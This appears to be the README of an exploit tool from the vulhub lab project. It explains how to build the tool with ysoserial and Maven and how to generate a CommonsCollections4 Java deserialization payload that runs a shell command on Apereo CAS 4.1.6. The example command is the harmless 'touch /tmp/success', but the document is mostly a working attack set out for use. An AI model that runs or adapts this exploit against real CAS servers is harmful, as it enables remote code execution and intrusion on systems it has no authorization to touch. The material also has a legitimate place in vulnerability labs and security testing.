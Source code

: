 # Apereo-CAS attack

## Download

[Click here](https://github.com/vulhub/Apereo-CAS-Attack/releases) to download latest binary JAR archive.

## Installation

Steps to install:

- Download [ysoserial](https://github.com/frohoff/ysoserial) to `ysoserial-master-30099844c6-1.jar`
- Install it to local maven:

```
mvn org.apache.maven.plugins:maven-install-plugin:2.5.2:install-file -Dfile=ysoserial-master-30099844c6-1.jar -DgroupId=ysoserial -DartifactId=ysoserial -Dversion=0.0.6 -Dpackaging=jar -DlocalRepositoryPath=my-repo
```

- Build JAR file:

```
mvn clean package assembly:single
```

## Usage

Generate a `CommonsCollections4` Payload for Apereo-CAS 4.1.6:

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
``` 

